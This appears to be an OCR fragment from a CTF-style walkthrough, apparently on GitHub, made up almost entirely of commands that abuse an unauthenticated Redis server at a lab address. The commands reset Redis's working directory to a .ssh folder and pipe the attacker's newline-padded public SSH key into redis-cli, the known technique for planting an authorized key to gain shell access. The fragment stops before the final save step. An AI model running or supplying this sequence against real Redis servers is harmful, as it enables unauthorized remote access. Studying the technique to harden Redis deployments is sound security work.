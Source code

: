 ```GET CONFIG *```

```CONFIG get dir /var/lib/redis```

```CONFIG set dir /var/lib/redis/.ssh```

```
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key

```
